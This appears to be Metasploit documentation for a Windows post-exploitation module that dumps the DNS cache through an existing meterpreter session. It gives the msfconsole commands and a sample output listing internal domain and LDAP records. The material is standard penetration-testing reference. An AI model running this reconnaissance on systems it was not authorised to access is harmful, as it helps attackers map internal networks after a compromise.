 ## Vulnerable Application

This module displays the records stored in the DNS cache.

## Verification Steps
  1. Start msfconsole
  2. Get meterpreter session
  3. Do: ```use post/windows/gather/dnscache_dump```
  4. Do: ```set SESSION <session id>```
  6. Do: ```run```

## Options

  ***
  SESSION
  ***
  The session to run this module on.


## Scenarios

### A run on Windows 7 (6.1 Build 7601, Service Pack 1).

  ```
  [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.6:49184) at 2019-12-11 12:51:59 -0700

  msf > use post/windows/gather/dnscache_dump
  msf post(windows/gather/dnscache_dump) > set SESSION 1
    SESSION => 1
  msf post(windows/gather/dnscache_dump) > run

    [*] DNS Cached Entries
    ==================

    TYPE  DOMAIN
    ----  ------
    0001  dc.domain.local
    0001  watson.microsoft.com
    0005  download.windowsupdate.com
    0005  go.microsoft.com
    0005  www.msftncsi.com
    0005  download.microsoft.com
    00ff  isatap
    00ff  wpad
    00ff  _ldap._tcp.dc.domain.local
    00ff  _ldap._tcp.default-first-site-name._sites.dc.domain.local

    [*] Post module execution completed
    ```
